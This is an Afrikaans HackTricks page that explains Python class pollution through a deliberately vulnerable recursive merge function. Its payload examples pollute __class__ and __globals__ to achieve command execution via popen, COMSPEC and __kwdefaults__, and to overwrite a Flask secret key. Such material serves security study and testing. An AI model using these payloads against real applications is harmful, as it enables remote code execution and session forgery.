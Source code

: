 # Klasverontreiniging (Python se Prototipeverontreiniging)

{% hint style="success" %}
Leer en oefen AWS-hacking: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer en oefen GCP-hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Controleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Basiese Voorbeeld

Kyk hoe dit moontlik is om klasse van voorwerpe met strings te verontreinig:
```python
class Company: pass
class Developer(Company): pass
class Entity(Developer): pass

c = Company()
d = Developer()
e = Entity()

print(c) #<__main__.Company object at 0x1043a72b0>
print(d) #<__main__.Developer object at 0x1041d2b80>
print(e) #<__main__.Entity object at 0x1041d2730>

e.__class__.__qualname__ = 'Polluted_Entity'

print(e) #<__main__.Polluted_Entity object at 0x1041d2730>

e.__class__.__base__.__qualname__ = 'Polluted_Developer'
e.__class__.__base__.__base__.__qualname__ = 'Polluted_Company'

print(d) #<__main__.Polluted_Developer object at 0x1041d2b80>
print(c) #<__main__.Polluted_Company object at 0x1043a72b0>
```
## Basiese Swakheid Voorbeeld
```python
# Initial state
class Employee: pass
emp = Employee()
print(vars(emp)) #{}

# Vulenrable function
def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)


USER_INPUT = {
"name":"Ahemd",
"age": 23,
"manager":{
"name":"Sarah"
}
}

merge(USER_INPUT, emp)
print(vars(emp)) #{'name': 'Ahemd', 'age': 23, 'manager': {'name': 'Sarah'}}
```
## Gadget Voorbeelde

<details>

<summary>Skep klas eienskap standaard waarde na RCE (subprocess)</summary>
```python
from os import popen
class Employee: pass # Creating an empty class
class HR(Employee): pass # Class inherits from Employee class
class Recruiter(HR): pass # Class inherits from HR class

class SystemAdmin(Employee): # Class inherits from Employee class
def execute_command(self):
command = self.custom_command if hasattr(self, 'custom_command') else 'echo Hello there'
return f'[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

USER_INPUT = {
"__class__":{
"__base__":{
"__base__":{
"custom_command": "whoami"
}
}
}
}

recruiter_emp = Recruiter()
system_admin_emp = SystemAdmin()

print(system_admin_emp.execute_command())
#> [!] Executing: "echo Hello there", output: "Hello there"

# Create default value for Employee.custom_command
merge(USER_INPUT, recruiter_emp)

print(system_admin_emp.execute_command())
#> [!] Executing: "whoami", output: "abdulrah33m"
```
</details>

<details>

<summary>Vervuiling van ander klasse en globale vars deur <code>globals</code></summary>
```python
def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

class User:
def __init__(self):
pass

class NotAccessibleClass: pass

not_accessible_variable = 'Hello'

merge({'__class__':{'__init__':{'__globals__':{'not_accessible_variable':'Polluted variable','NotAccessibleClass':{'__qualname__':'PollutedClass'}}}}}, User())

print(not_accessible_variable) #> Polluted variable
print(NotAccessibleClass) #> <class '__main__.PollutedClass'>
```
</details>

<details>

<summary>Willekeurige subproses uitvoering</summary>
```python
import subprocess, json

class Employee:
def __init__(self):
pass

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

# Overwrite env var "COMSPEC" to execute a calc
USER_INPUT = json.loads('{"__init__":{"__globals__":{"subprocess":{"os":{"environ":{"COMSPEC":"cmd /c calc"}}}}}}') # attacker-controlled value

merge(USER_INPUT, Employee())

subprocess.Popen('whoami', shell=True) # Calc.exe will pop up
```
</details>

<details>

<summary>Oorskrywing van <strong><code>__kwdefaults__</code></strong></summary>

**`__kwdefaults__`** is 'n spesiale eienskap van alle funksies, gebaseer op Python [dokumentasie](https://docs.python.org/3/library/inspect.html), dit is 'n "afbeelding van enige verstekwaardes vir **sleutelwoord-alleen** parameters". Om hierdie eienskap te besoedel, stel dit ons in staat om die verstekwaardes van sleutelwoord-alleen parameters van 'n funksie te beheer, dit is die funksie se parameters wat na \* of \*args kom.
```python
from os import system
import json

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

class Employee:
def __init__(self):
pass

def execute(*, command='whoami'):
print(f'Executing {command}')
system(command)

print(execute.__kwdefaults__) #> {'command': 'whoami'}
execute() #> Executing whoami
#> user

emp_info = json.loads('{"__class__":{"__init__":{"__globals__":{"execute":{"__kwdefaults__":{"command":"echo Polluted"}}}}}}') # attacker-controlled value
merge(emp_info, Employee())

print(execute.__kwdefaults__) #> {'command': 'echo Polluted'}
execute() #> Executing echo Polluted
#> Polluted
```
</details>

<details>

<summary>Oorskryf Flask-geheim regoor lêers</summary>

Dus, as jy 'n klasvervuiling kan doen oor 'n voorwerp wat in die hoof Python-lêer van die web gedefinieer is, **maar waarvan die klas in 'n ander lêer as die hoof een gedefinieer is**. Omdat jy in die vorige ladinge \_\_globals\_\_ moet benader om toegang te verkry tot die klas van die voorwerp of metodes van die klas, sal jy in staat wees om **die globals in daardie lêer te benader, maar nie in die hoof een nie**. \
Daarom sal jy **nie die Flask-program se globale voorwerp kan benader** wat die **geheime sleutel** in die hoofbladsy gedefinieer het nie:
```python
app = Flask(__name__, template_folder='templates')
app.secret_key = '(:secret:)'
```
In hierdie scenario het jy 'n toestel nodig om deur lêers te navigeer om by die hooflêer te kom om **toegang te verkry tot die globale voorwerp `app.secret_key`** om die Flask geheime sleutel te verander en in staat te wees om [**voorregte te eskaleer** deur hierdie sleutel te ken](../../network-services-pentesting/pentesting-web/flask.md#flask-unsign).

'n Nuttige lading soos hierdie een [van hierdie skryfstuk](https://ctftime.org/writeup/36082):

{% code overflow="wrap" %}
```python
__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
```
{% endcode %}

Gebruik hierdie lading om **`app.secret_key`** te **verander** (die naam in jou program mag verskil) om nuwe en meer bevoorregte flask koekies te kan teken.

</details>

Kyk ook na die volgende bladsy vir meer slegs lees-toestelle:

{% content-ref url="python-internal-read-gadgets.md" %}
[python-internal-read-gadgets.md](python-internal-read-gadgets.md)
{% endcontent-ref %}

## Verwysings

* [https://blog.abdulrah33m.com/prototype-pollution-in-python/](https://blog.abdulrah33m.com/prototype-pollution-in-python/)

{% hint style="success" %}
Leer & oefen AWS Hack:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

